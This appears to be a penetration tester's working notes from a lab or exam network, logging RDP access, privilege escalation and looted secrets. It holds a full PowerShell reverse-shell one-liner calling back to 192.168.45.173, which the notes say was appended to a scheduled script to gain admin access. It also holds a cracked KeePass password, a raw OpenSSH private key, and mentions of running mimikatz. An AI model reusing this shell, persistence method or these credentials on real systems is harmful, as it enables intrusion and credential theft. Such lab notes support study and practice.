 Loot:
- Keepass:destiny1
History:
- Got RDP access as andrea
- Found updatecollector in C:
- milanas version of beyond updater gets copied to updater/beyondupdater and executed
- Got access milana (Admin) by adding a PS reverse shell on liner to end of C:/schdule.ps1
```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.173',4445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- Added andrea to admin group since I couldn't run mimi from reverse shell
- Crack database.kdbx under milanias documents and got password
- Got Backup machine SSH key
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBEhRgOw+Adwr6+R/A54Ng75WK1VsH1f+xloYwIbFnoAwAAAJgtoEZgLaBG
YAAAAAtzc2gtZWQyNTUxOQAAACBEhRgOw+Adwr6+R/A54Ng75WK1VsH1f+xloYwIbFnoAw
AAAECk3NMSFKJMauIwp/DPYEhMV4980aMdDOlfIlTq3qy4SkSFGA7D4B3Cvr5H8Dng2Dvl
YrVWwfV/7GWhjAhsWegDAAAADnRlc3RzQGhhdC13b3JrAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```
- can use key on 172...20 but still need password

COA:
- Obtain access to milania account and edit beyond updater: